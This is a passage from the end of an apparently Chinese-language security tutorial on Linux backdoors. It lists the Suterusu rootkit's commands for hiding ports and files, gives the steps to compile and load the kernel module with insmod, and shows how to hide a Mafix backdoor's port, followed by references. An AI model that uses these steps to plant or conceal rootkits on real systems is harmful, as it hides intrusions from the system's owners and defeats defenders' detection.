 ```
$ ./sock 6 [port]
Hide UDPv4 port
$ ./sock 7 [port]
Unhide UDPv4 port
$ ./sock 8 [port]
Hide UDPv6 port
$ ./sock 9 [port]
Unhide UDPv6 port
$ ./sock 10 [port]
Hide file/directory
$ ./sock 11 [name]
Unhide file/directory
$ ./sock 12 [name]

```

编译：

```
make linux-x86 KDIR=/lib/modules/$(uname -r)/build
gcc sock.c -o sock
//加载模块
insmod suterusu.ko

```

结合Mafix使用(隐藏端口):

```
./sock 3 [port]

```

![p12](http://drops.javaweb.org/uploads/images/6482d49639a88423f93f4aebc663b972ea4ae408.jpg)

0x09 参考资料
=========

* * *

*   [https://www.aldeid.com/wiki/Cymothoa](https://www.aldeid.com/wiki/Cymothoa)
*   [http://phrack.org/issues/68/9.html](http://phrack.org/issues/68/9.html)
*   [http://www.joychou.org/index.php/web/ssh-backdoor.html](http://www.joychou.org/index.php/web/ssh-backdoor.html)